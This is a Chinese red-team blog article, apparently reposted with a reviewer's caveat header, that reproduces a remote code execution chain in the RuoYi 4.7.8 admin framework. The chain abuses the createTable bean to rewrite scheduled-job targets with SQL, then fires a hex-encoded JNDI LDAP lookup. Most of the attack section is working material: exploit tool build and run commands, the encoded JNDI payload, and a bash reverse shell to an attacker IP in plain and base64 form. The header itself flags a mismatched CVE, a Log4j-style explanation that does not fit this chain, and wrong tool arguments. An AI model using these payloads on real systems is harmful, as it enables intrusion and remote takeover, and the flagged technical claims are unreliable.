## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：实验4.7.8，引用旧&lt;4.7.5；JDK/gadget依赖未锁

代码与实验材料：Bean createTable修改sys_job后changeStatus触发JNDI，源码截图+SQL文本；嵌套引号和工具参数错，修改现有任务1/3有破坏性

来源证据范围：eddiemurphy89原分析链接，未给官方修复

- **事实待核（1）**：CVE与实际新机制错配；依据：4566只在历史背景，当前核心是经Bean SQL修改任务绕过addSave名单，应独立关联。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **操作与副作用边界（2）**：复现会覆盖已有任务且缺恢复；依据：UPDATE job_id=1/3，后启用任意代码目标，需快照与清理而正文没有。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **结论使用边界（3）**：混入Log4j式解释及工具错误；依据：${jndi://ldap://...}解释不对应此链InitialContext.lookup；java-jar、jar -C以及大小写参数不一致，Java1.8不足限定gadget。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  最新Ruoyi漏洞复现   
原创 LULU  红队蓝军   2024-10-09 18:00  
  
**漏洞影响：若依4.7.8版本**  
  
**漏洞成因**  
  
在 ruoyi 4.7.5 版本之前，后台接口/tool/gen/createTable处存在 sql 注入(CVE-2022-4566)  
  
  
  
找到genTableService的实现类：GenTableServiceImpl，该类同样满足黑白名单条件  
  
  
  
对应的 Mapper 语句:  
```
<update id="createTable">
       ${sql}
</update>

```  
  
  
  
如果 GenTableServiceImpl 是 bean 对象，就可以直接调用 GenTableServiceImpl#createTable 执行 SQL 语句  
  
在启动类中打印所有加载的 bean，其中包括 genTableServiceImpl：  
```
ConfigurableApplicationContext run = SpringApplication.run(RuoYiApplication.class, args);
// 获取所有bean的名称
String[] beanDefinitionNames = run.getBeanDefinitionNames();
// 打印所有bean的名称
for (String beanDefinitionName : beanDefinitionNames) {
    System.out.println(beanDefinitionName);
}


```  
  
  
  
ruoyi黑白名单校验仅出现在com.ruoyi.quartz.controller.SysJobController#addSave，而任务状态修改接口中并没有添加，可不调用addSave方法添加计划任务内容，成功绕过黑白名单限制  
  
  
## 计划任务SQL注入   
  
修改id为1的计划任务的值为’zian’  
```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'zian' WHERE job_id = 1;')

```  
  
点击启用任务，ID为1的值成功被修改  
  
  
  
  
## 利用计划任务执行任意命令   
  
**验证漏洞**  
  
**使用JNDI-Injection-Exploit起一个ldap服务**  
```
${jndi://ldap://xxxx.xxx.cn}

解析payload
1、首先 发现字符串有${},调用lookup函数
2、解析${}中的内容发现是JNDI的ldap服务
3、攻击者构造任意命令

```  
  
1、JNDI利用工具  
```
安装：git clone https://github.com/welk1n/JNDI-Injection-Exploit.git

切换目录：cd JNDI-Injection-Exploit

编译安装：mvn clean package -DskipTests 

切换到target目录 cd target


```  
  
  
  
使用 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar，依赖Java 版本1.8 或者1.7  
```
工具使用方式：java-jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -c"命令" -A “攻击机的IP”

```  
```
jar JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar -C calc -A 攻击机IP

```  
  
  
  
由于JobInvokeUtil在调用过程中不允许在字符串中使用括号，因此将原始作业表中特定作业的参数值修改为十六进制（绕过防御检测）  
  
需要将ldap服务进行编码  
```
0x6A617661782E6E616D696E672E496E697469616C436F6E746578742E6C6F6F6B757028276C6461703A2F2F3139322E3136382E312E3130343A313338392F646573657269616C4A61636B736F6E2729

```  
  
修改id为3的计划任务为jndi payload  
```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6A617661782E6E616D696E672E496E697469616C436F6E746578742E6C6F6F6B757028276C6461703A2F2F3139322E3136382E312E3130343A313338392F646573657269616C4A61636B736F6E2729 WHERE job_id = 3;')

```  
  
  
  
启用任务  
  
任务3的调用字符串已经是Jndi payload了，后面直接通过/monitor/job/changeStatus接口直接更改任务状态触发Jndi  
  
  
### 漏洞利用  
  
**linux反弹shell**  
  
将反弹shell通过JNDI注入工具部署在LDAP服务 或者RMI 服务中  
```
bash -i >& /dev/tcp/192.168.xx.xx/7788 0>&1
base64编码后
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA4Lzc3ODggMD4mMQoKCg==}|{base64,-d}|{bash,-i}

```  
  
生成LDAP服务  
```
运行：java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA4Lzc3ODggMD4mMQoKCg==}|{base64,-d}|{bash,-i}" -A "攻击机ip"

```  
  
  
  
将ldap服务十六进制编码后，通过计划任务id=2执行，这里使用kali 进行监听  
  
  
  
参考文章：  
  
https://eddiemurphy89.github.io/2024/08/08/Ruoyi-v4-7-8-RCE%E5%88%86%E6%9E%90/  
  
加下方wx，拉你一起进群学习  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
